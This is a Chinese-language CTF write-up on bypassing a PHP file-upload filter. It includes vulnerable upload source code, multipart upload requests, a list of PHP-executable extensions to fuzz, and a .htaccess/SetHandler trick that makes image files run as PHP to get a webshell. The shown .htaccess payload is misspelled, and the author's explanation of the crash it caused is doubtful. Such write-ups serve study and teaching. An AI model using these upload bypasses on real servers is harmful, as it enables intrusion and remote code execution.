   

## 源码查看

```php
<?php
// 开启 Session
session_start();

// 配置上传目录和允许的文件后缀名
$uploadDir = "upload/";
$allowedExtensions = ["phtml", "gif","jpg","png"];

// 确保上传目录存在
if (!is_dir($uploadDir)) {
    mkdir($uploadDir, 0777, true);
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES['file'])) {
        $file = $_FILES['file'];

        // 获取文件信息 
        $filename = $file['name'];
        $tempPath = $file['tmp_name'];
        $fileExtension = pathinfo($filename, PATHINFO_EXTENSION);

        // 检查文件后缀名
        if ($fileExtension === 'php' || !in_array($fileExtension, $allowedExtensions)) {
            echo "Not! PHP!";
            exit();
        }

        // 检查文件内容，防止直接上传 <?php 标识符的木马
        $fileContent = file_get_contents($tempPath);
        if (stripos($fileContent, "<?php") !== false || stripos($fileContent, "<?=") !== false) {
            echo "File content not allowed!";
            exit();
        }

        // 移动文件到上传目录
        $destination = $uploadDir . basename($filename);
        if (move_uploaded_file($tempPath, $destination)) {
            echo "File uploaded successfully!";
        } else {
            echo "File upload failed!";
        }
    } else {
        echo "No file uploaded!";
    }
    exit();
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>File Upload Challenge</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            text-align: center;
            background: linear-gradient(135deg, #f3f4f6, #e3e4e8);
            margin: 0;
            padding: 50px;
        }
        .upload-form {
            background: white;
            padding: 20px;
            border-radius: 8px;
            box-shadow: 0 4px 6px rgba(0, 0, 0, 0.1);
            display: inline-block;
        }
    </style>
    <script>
        function validateFile() {
            const fileInput = document.getElementById('file');
            const fileName = fileInput.value;
            const allowedExtensions = ["phtml", "gif", "png", "jpg"];
            const fileExtension = fileName.split('.').pop().toLowerCase();

            if (fileExtension === 'php' || !allowedExtensions.includes(fileExtension)) {
                alert("File type not allowed!");
                fileInput.value = ""; // 清空文件输入框
                return false;
            }

            return true;
        }
    </script>
</head>
<body>
    <h1>CTF File Upload Challenge</h1>
    <p>Try to upload your file. Remember, PHP files are not allowed directly!</p>
    <form class="upload-form" method="post" enctype="multipart/form-data" onsubmit="return validateFile();">
        <input type="file" name="file" id="file" required>
        <br><br>
        <button type="submit">Upload</button>
    </form>
</body>
</html>

```


# 第五题

基础题目之文件上传突破
文件上传漏洞是指用户上传了一个可执行的脚本文件，并通过此脚本文件获得了执行服务器端命令的能力。这种攻击方式是最为直接和有效的，“文件上传”本身没有问题，有问题的是文件上传后，服务器怎么处理、解释文件。如果服务器的处理逻辑做的不够安全，则会导致严重的后果。

通过你所学到的知识，测试其过WAF滤规则，突破上传获取webshell，答案就在根目录下key.flag文件中。
请开始答题！

## 环境

Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_perl/2.0.11 Perl/v5.16.3
X-Powered-By: PHP/5.4.45

## 测试上传

### 1.不允许php后缀

```http
------WebKitFormBoundary2ghavNuG15T9lHWD
Content-Disposition: form-data; name="files"; filename="1.php"
Content-Type: image/png

GIF89a
------WebKitFormBoundary2ghavNuG15T9lHWD--
```

尝试大小写绕过

```
------WebKitFormBoundary2ghavNuG15T9lHWD
Content-Disposition: form-data; name="files"; filename="2.Php"
Content-Type: image/png

GIF89a

------WebKitFormBoundary2ghavNuG15T9lHWD--
```

可以绕过,也可以访问到文件

### 2.添加php代码

发现无法执行命令



### 3.尝试模糊测试其他的扩展名

```
phtml
phar
pht
php3
php4
php5
php6
php7
php8
pht
phpt
```



访问页面.phtml pht php3 php4 php5 pht 后缀都可以执行代码



### 4.源码检查

uppload.php

```php
<!DOCTYPE html>
<html>
  <head>
    <meta charset="gb2312">
    <title>文件上传</title>
    <link rel="stylesheet" href="../css/materialize.min.css">

  </head>
  <body>
<div class="container">

  <?php error_reporting(0); ?>

<!-- Navbar goes here -->

   <!-- Page Layout here -->
   <div class="row">

     <div class="col s3">
       <?php 
     		include("nav1.php"); 
     
         	include("function.php"); 
         ?>
     </div>

     <div class="col s9">
       <h5>基础题目之文件上传突破</h5>
       <b>描述</b>
       <p>请开始答题</p>
       <div class="card  teal lighten-1">
            <div class="card-content white-text">
              <span class="card-title">文件上传</span>
              <?php

              $files = @$_FILES["files"];
              if (judge($files)) 
		{
                  $fullpath = $_REQUEST["path"] . $files["name"];
                  if (move_uploaded_file($files['tmp_name'], $fullpath)) {
                      echo "<a href='$fullpath'>图片上传成功</a>";
                  }
              }
              echo '<form method=POST enctype="multipart/form-data" action="">
                      <input type="file" name="files">
                      <input type=submit value="上传"></form>';

              ?>
            </div>
            <div class="card-action">
              <?php if($fullpath!= '') { echo "文件有效，上传成功： <a href=\"$fullpath\"> 点我查看</a>"; } ?>
            </div>
          </div>

     </div>

   </div>

</div>
  </body>
</html>


```

function.php

```php
<?php

	//黑名单验证，大小写绕过
	function step1($files)
	{
    	$filename = $files["name"];
    	$ext = substr($filename,strripos($filename,'.') + 1);
    	if ($ext != "php")
    	{
    		return true;
    	}
    	return false;
	}

	//验证MIME头，修改数据包绕过
	function step2($files)
	{
		if($files['type'] == "image/gif" || $files['type'] == "image/jpeg" || $files['type'] == "image/png") 
		{
			return true;
		}
		return false;
	}

	//验证文件内容，不能包含eval等敏感函数名，使用其他内容，文件读写
	function step3($files)
	{
		$content = file_get_contents($files["tmp_name"]);


		if (strpos($content, "eval") === false && strpos($content, "assert") === false )
		{
			return true;
		}
		return false;
	}


    //验证文件头
	function step4($files)
	{
		$png_header = "89504e47";
		$jpg_header = "ffd8FFE0";
		$gif_header = "47494638";

		$header = bin2hex(file_get_contents ( $files["tmp_name"] , 0 , NULL , 0 , 4 )); 

		if (strcasecmp($header,$png_header) == 0 || strcasecmp($header,$jpg_header) == 0 || strcasecmp($header,$gif_header) == 0) 
		{
			return true;
		}
		return false;
	}

    function judge($files)
    {
  
	    if (step1($files) && step2($files)  && step4($files))
	    {
	    	return true;
	    }
	    return false;
	  
    }

?>

```

### 配置文件检查

| 维度             | Debian/Ubuntu                  | CentOS/RHEL                    |
| ---------------- | ------------------------------ | ------------------------------ |
| 服务名           | `apache2`                    | `httpd`                      |
| 主配置目录       | `/etc/apache2`               | `/etc/httpd`                 |
| 主配置文件       | `/etc/apache2/apache2.conf`  | `/etc/httpd/conf/httpd.conf` |
| 模块配置目录     | `/etc/apache2/mods-enabled`  | `/etc/httpd/conf.modules.d/` |
| 虚拟主机配置目录 | `/etc/apache2/sites-enabled` | `/etc/httpd/conf.d/`         |
| 重启命令         | `systemctl restart apache2`  | `systemctl restart httpd`    |

```apache

#
# This is the main Apache HTTP server configuration file.  It contains the
# configuration directives that give the server its instructions.
# See <URL:http://httpd.apache.org/docs/2.4/> for detailed information.
# In particular, see 
# <URL:http://httpd.apache.org/docs/2.4/mod/directives.html>
# for a discussion of each configuration directive.
#
# Do NOT simply read the instructions in here without understanding
# what they do.  They're here only as hints or reminders.  If you are unsure
# consult the online docs. You have been warned.  
#
# Configuration and logfile names: If the filenames you specify for many
# of the server's control files begin with "/" (or "drive:/" for Win32), the
# server will use that explicit path.  If the filenames do *not* begin
# with "/", the value of ServerRoot is prepended -- so 'log/access_log'
# with ServerRoot set to '/www' will be interpreted by the
# server as '/www/log/access_log', where as '/log/access_log' will be
# interpreted as '/log/access_log'.

#
# ServerRoot: The top of the directory tree under which the server's
# configuration, error, and log files are kept.
#
# Do not add a slash at the end of the directory path.  If you point
# ServerRoot at a non-local disk, be sure to specify a local disk on the
# Mutex directive, if file-based mutexes are used.  If you wish to share the
# same ServerRoot for multiple httpd daemons, you will need to change at
# least PidFile.
#
ServerRoot "/etc/httpd"

#
# Listen: Allows you to bind Apache to specific IP addresses and/or
# ports, instead of the default. See also the <VirtualHost>
# directive.
#
# Change this to Listen on specific IP addresses as shown below to 
# prevent Apache from glomming onto all bound IP addresses.
#
#Listen 12.34.56.78:80
Listen 80

<VirtualHost *:80>
    DocumentRoot "/var/www/html"
    ServerName localhost

    <FilesMatch "\.php$|\.php3$|\.php4$|\.php5$|\.pht$|\.phtml$">
        SetHandler "proxy:unix:/var/opt/remi/php54/run/php-fpm/www.sock|fcgi://localhost/"
#        SetHandler "proxy:unix:/var/opt/remi/php55/run/php-fpm/www.sock|fcgi://localhost/"
#        SetHandler "proxy:unix:/opt/remi/php56/root/var/run/php-fpm/www.sock|fcgi://localhost/"
#        SetHandler "proxy:unix:/var/opt/remi/php70/run/php-fpm/www.sock|fcgi://localhost/"
#        SetHandler "proxy:unix:/var/opt/remi/php71/run/php-fpm/www.sock|fcgi://localhost/"
#        SetHandler "proxy:unix:/var/opt/remi/php72/run/php-fpm/www.sock|fcgi://localhost/"
#        SetHandler "proxy:unix:/var/opt/remi/php73/run/php-fpm/www.sock|fcgi://localhost/"
#        SetHandler "proxy:unix:/var/opt/remi/php74/run/php-fpm/www.sock|fcgi://localhost/"
#        SetHandler "proxy:unix:/var/opt/remi/php80/run/php-fpm/www.sock|fcgi://localhost/"
#        SetHandler "proxy:unix:/var/opt/remi/php81/run/php-fpm/www.sock|fcgi://localhost/"
#        SetHandler "proxy:unix:/var/opt/remi/php82/run/php-fpm/www.sock|fcgi://localhost/"
    </FilesMatch>

    <Directory "/var/www/html">
        AllowOverride All
        Require all granted
        Options +Indexes +FollowSymLinks
    </Directory>
</VirtualHost>

#
# Dynamic Shared Object (DSO) Support
#
# To be able to use the functionality of a module which was built as a DSO you
# have to place corresponding `LoadModule' lines at this location so the
# directives contained in it are actually available _before_ they are used.
# Statically compiled modules (those listed by `httpd -l') do not need
# to be loaded here.
#
# Example:
# LoadModule foo_module modules/mod_foo.so
#
Include conf.modules.d/*.conf

#
# If you wish httpd to run as a different user or group, you must run
# httpd as root initially and it will switch.  
#
# User/Group: The name (or #number) of the user/group to run httpd as.
# It is usually good practice to create a dedicated user and group for
# running httpd, as with most system services.
#
User apache
Group apache

# 'Main' server configuration
#
# The directives in this section set up the values used by the 'main'
# server, which responds to any requests that aren't handled by a
# <VirtualHost> definition.  These values also provide defaults for
# any <VirtualHost> containers you may define later in the file.
#
# All of these directives may appear inside <VirtualHost> containers,
# in which case these default settings will be overridden for the
# virtual host being defined.
#

#
# ServerAdmin: Your address, where problems with the server should be
# e-mailed.  This address appears on some server-generated pages, such
# as error documents.  e.g. admin@your-domain.com
#
ServerAdmin root@localhost

#
# ServerName gives the name and port that the server uses to identify itself.
# This can often be determined automatically, but we recommend you specify
# it explicitly to prevent problems during startup.
#
# If your host doesn't have a registered DNS name, enter its IP address here.
#
#ServerName www.example.com:80
ServerName localhost

#
# Deny access to the entirety of your server's filesystem. You must
# explicitly permit access to web content directories in other 
# <Directory> blocks below.
#
<Directory />
    AllowOverride none
    Require all denied
</Directory>

#
# Note that from this point forward you must specifically allow
# particular features to be enabled - so if something's not working as
# you might expect, make sure that you have specifically enabled it
# below.
#

#
# DocumentRoot: The directory out of which you will serve your
# documents. By default, all requests are taken from this directory, but
# symbolic links and aliases may be used to point to other locations.
#
DocumentRoot "/var/www/html"

#
# Relax access to content within /var/www.
#
<Directory "/var/www">
    AllowOverride None
    # Allow open access:
    Require all granted
</Directory>

# Further relax access to the default document root:
<Directory "/var/www/html">
    #
    # Possible values for the Options directive are "None", "All",
    # or any combination of:
    #   Indexes Includes FollowSymLinks SymLinksifOwnerMatch ExecCGI MultiViews
    #
    # Note that "MultiViews" must be named *explicitly* --- "Options All"
    # doesn't give it to you.
    #
    # The Options directive is both complicated and important.  Please see
    # http://httpd.apache.org/docs/2.4/mod/core.html#options
    # for more information.
    #
    Options Indexes FollowSymLinks

    #
    # AllowOverride controls what directives may be placed in .htaccess files.
    # It can be "All", "None", or any combination of the keywords:
    #   Options FileInfo AuthConfig Limit
    #
    AllowOverride None

    #
    # Controls who can get stuff from this server.
    #
    Require all granted
</Directory>

#
# DirectoryIndex: sets the file that Apache will serve if a directory
# is requested.
#
<IfModule dir_module>
    DirectoryIndex index.html index.php
</IfModule>

#
# The following lines prevent .htaccess and .htpasswd files from being 
# viewed by Web clients. 
#
<Files ".ht*">
    Require all denied
</Files>

#
# ErrorLog: The location of the error log file.
# If you do not specify an ErrorLog directive within a <VirtualHost>
# container, error messages relating to that virtual host will be
# logged here.  If you *do* define an error logfile for a <VirtualHost>
# container, that host's errors will be logged there and not here.
#
ErrorLog "logs/error_log"

#
# LogLevel: Control the number of messages logged to the error_log.
# Possible values include: debug, info, notice, warn, error, crit,
# alert, emerg.
#
LogLevel warn

<IfModule log_config_module>
    #
    # The following directives define some format nicknames for use with
    # a CustomLog directive (see below).
    #
    LogFormat "%h %l %u %t \"%r\" %>s %b \"%{Referer}i\" \"%{User-Agent}i\"" combined
    LogFormat "%h %l %u %t \"%r\" %>s %b" common

    <IfModule logio_module>
      # You need to enable mod_logio.c to use %I and %O
      LogFormat "%h %l %u %t \"%r\" %>s %b \"%{Referer}i\" \"%{User-Agent}i\" %I %O" combinedio
    </IfModule>

    #
    # The location and format of the access logfile (Common Logfile Format).
    # If you do not define any access logfiles within a <VirtualHost>
    # container, they will be logged here.  Contrariwise, if you *do*
    # define per-<VirtualHost> access logfiles, transactions will be
    # logged therein and *not* in this file.
    #
    #CustomLog "logs/access_log" common

    #
    # If you prefer a logfile with access, agent, and referer information
    # (Combined Logfile Format) you can use the following directive.
    #
    CustomLog "logs/access_log" combined
</IfModule>

<IfModule alias_module>
    #
    # Redirect: Allows you to tell clients about documents that used to 
    # exist in your server's namespace, but do not anymore. The client 
    # will make a new request for the document at its new location.
    # Example:
    # Redirect permanent /foo http://www.example.com/bar

    #
    # Alias: Maps web paths into filesystem paths and is used to
    # access content that does not live under the DocumentRoot.
    # Example:
    # Alias /webpath /full/filesystem/path
    #
    # If you include a trailing / on /webpath then the server will
    # require it to be present in the URL.  You will also likely
    # need to provide a <Directory> section to allow access to
    # the filesystem path.

    #
    # ScriptAlias: This controls which directories contain server scripts. 
    # ScriptAliases are essentially the same as Aliases, except that
    # documents in the target directory are treated as applications and
    # run by the server when requested rather than as documents sent to the
    # client.  The same rules about trailing "/" apply to ScriptAlias
    # directives as to Alias.
    #
    ScriptAlias /cgi-bin/ "/var/www/cgi-bin/"

</IfModule>

#
# "/var/www/cgi-bin" should be changed to whatever your ScriptAliased
# CGI directory exists, if you have that configured.
#
<Directory "/var/www/cgi-bin">
    AllowOverride None
    Options None
    Require all granted
</Directory>

<IfModule mime_module>
    #
    # TypesConfig points to the file containing the list of mappings from
    # filename extension to MIME-type.
    #
    TypesConfig /etc/mime.types

    #
    # AddType allows you to add to or override the MIME configuration
    # file specified in TypesConfig for specific file types.
    #
    #AddType application/x-gzip .tgz
    #
    # AddEncoding allows you to have certain browsers uncompress
    # information on the fly. Note: Not all browsers support this.
    #
    #AddEncoding x-compress .Z
    #AddEncoding x-gzip .gz .tgz
    #
    # If the AddEncoding directives above are commented-out, then you
    # probably should define those extensions to indicate media types:
    #
    AddType application/x-compress .Z
    AddType application/x-gzip .gz .tgz
    AddType application/x-httpd-php-source .phps
    AddType application/x-httpd-php .php .phtml .pht .php3 .php4 .php5

    #
    # AddHandler allows you to map certain file extensions to "handlers":
    # actions unrelated to filetype. These can be either built into the server
    # or added with the Action directive (see below)
    #
    # To use CGI scripts outside of ScriptAliased directories:
    # (You will also need to add "ExecCGI" to the "Options" directive.)
    #
    #AddHandler cgi-script .cgi

    # For type maps (negotiated resources):
    #AddHandler type-map var

    #
    # Filters allow you to process content before it is sent to the client.
    #
    # To parse .shtml files for server-side includes (SSI):
    # (You will also need to add "Includes" to the "Options" directive.)
    #
    AddType text/html .shtml
    AddOutputFilter INCLUDES .shtml
</IfModule>

#
# Specify a default charset for all content served; this enables
# interpretation of all content as UTF-8 by default.  To use the 
# default browser choice (ISO-8859-1), or to allow the META tags
# in HTML content to override this choice, comment out this
# directive:
#
# AddDefaultCharset UTF-8
AddDefaultCharset GB2312

<IfModule mime_magic_module>
    #
    # The mod_mime_magic module allows the server to use various hints from the
    # contents of the file itself to determine its type.  The MIMEMagicFile
    # directive tells the module where the hint definitions are located.
    #
    MIMEMagicFile conf/magic
</IfModule>

#
# Customizable error responses come in three flavors:
# 1) plain text 2) local redirects 3) external redirects
#
# Some examples:
#ErrorDocument 500 "The server made a boo boo."
#ErrorDocument 404 /missing.html
#ErrorDocument 404 "/cgi-bin/missing_handler.pl"
#ErrorDocument 402 http://www.example.com/subscription_info.html
#

#
# EnableMMAP and EnableSendfile: On systems that support it, 
# memory-mapping or the sendfile syscall may be used to deliver
# files.  This usually improves server performance, but must
# be turned off when serving from networked-mounted 
# filesystems or if support for these functions is otherwise
# broken on your system.
# Defaults if commented: EnableMMAP On, EnableSendfile Off
#
#EnableMMAP off
EnableSendfile on

# Supplemental configuration
#
# Load config files in the "/etc/httpd/conf.d" directory, if any.
IncludeOptional conf.d/*.conf

```

VirtualHost 内 /var/www/html 配置 AllowOverride All，允许 .htaccess 覆盖 Apache 主配置；
<Files ".ht*"> 仅禁止 Web 访问 .htaccess，但不影响其规则生效。

### 尝试新的方式

```http
------WebKitFormBoundary2ghavNuG15T9lHWD
Content-Disposition: form-data; name="files"; filename=".htaccess"
Content-Type: image/png

GIF89a
AddTyle applicatuiion/x-httpd-php .jpg
------WebKitFormBoundary2ghavNuG15T9lHWD--
```

再上传一个jpg后缀的webshell



服务器崩溃了

`AddType application/x-httpd-php .png`
这个指令只在 mod_php 里有效，在 FPM 模式下会直接让 Apache 配置冲突 → 服务崩溃 / 503 / 直接挂掉

应该使用

```xml
<FilesMatch "\.png$">
SetHandler "proxy:unix:/var/opt/remi/php54/run/php-fpm/www.sock|fcgi://localhost/"
</FilesMatch>
```

mod_php 用 AddType
PHP-FPM 用 SetHandler


| 特征                 | mod_php 模式                           | PHP-FPM 模式                        |
| -------------------- | -------------------------------------- | ----------------------------------- |
| Apache 配置          | 有 `LoadModule php*_module`          | 有 `proxy:unix:/xxx/php-fpm.sock` |
| 进程                 | 无 php-fpm 进程                        | 有 php-fpm 主进程 / 子进程          |
| phpinfo() Server API | Apache 2.0 Handler                     | FPM/FastCGI                         |
| 解析指令             | 用 `AddType application/x-httpd-php` | 用 `SetHandler proxy:fcgi://xxx`  |
